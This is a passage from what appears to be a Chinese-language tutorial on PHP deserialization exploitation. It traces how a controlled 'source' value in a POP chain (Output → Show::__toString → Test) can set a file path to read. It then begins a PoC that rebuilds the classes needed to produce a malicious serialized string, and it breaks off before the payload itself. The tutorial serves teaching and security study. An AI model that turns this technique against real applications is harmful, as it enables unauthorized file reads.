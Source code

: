 图 3 参数传播路径

为了对应 Show::__toString() 中的 $this->str['str']->source ，我们可以通过array('source'=>'可控内容') 来控制 $value，即打算读取的文件路径。进一步优化下传播路径：

![Lark20210121-180543.png](https://s0.lgstatic.com/i/image/M00/8F/E1/Ciqc1GAJUvuASTMYAAB-HQ644z0682.png)

图 4 优化后的参数传播路径

**4. 编写 poc，构建恶意类对象，然后调用 serialize 函数去生成序列化字符串。**

根据图 2 的调用链可以知道，起始的调用类在 Output，因此我们需要反序列化它。

基于前面的分析，PoC 代码如下：

复制代码

```
<?php

  class Output{

    public $test;

    public $str;

    public function __construct($name){

          $this->str = $name;

      }

      public function __destruct(){

          $this->test = $this->str;

          echo $this->test;

      }

  }

  class Show{

    public $str;

    public $source;

    public function __toString(){

          $content = $this->str['str']->source;

          return (string)$content;

      }

  }

  class Test{

    public $file;

    public $params;

    // 原方法的定义此处省略，因为它对生成序列化字符串没有影响

  }
```